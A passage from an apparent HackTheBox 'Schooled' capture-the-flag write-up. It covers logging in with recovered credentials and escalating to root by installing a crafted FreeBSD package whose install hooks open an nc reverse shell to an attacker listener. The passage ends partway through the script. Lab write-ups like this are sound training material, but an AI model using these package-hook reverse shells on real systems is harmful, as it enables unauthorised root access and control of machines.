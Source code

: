 ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled13.jpg)
- Jamies creds: *jamie:!#####x*
- Now ssh over with these creds.
- Grab `user.txt` from jamie's home directory.

**root.txt**

- Performing a basic `sudo -l`:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled14.png)
- Poking around the internet and doing some good research on what the command is we find that it is a distinct binary that is replaced by the bootstrapped binary during the initial installation process.
- We can use this to probably install a custom package with code modified to privilege escalate to root.
- [Refer this article](http://lastsummer.de/creating-custom-packages-on-freebsd/)
- After reading the article put it all as a single script and modify parts of it as per your host listener. Use`nc` shells as the box has netcat and bsd just wouldn't work well with regular bash shells.
- The script :
    ```bash
    #!/bin/sh
    STAGEDIR=/tmp/stage
    rm -rf ${STAGEDIR}
    mkdir -p ${STAGEDIR}
    cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
    # careful here, this may clobber your system
    echo "Resetting root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
    # careful here, this may clobber your system
    echo "Registering root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+MANIFEST <<EOF
    name: mypackage
    version: "1.0_5"
    origin: sysutils/mypackage
    comment: "automates stuff"
    desc: "automates tasks which can also be undone later"
    maintainer: john@doe.it
    www: https://doe.it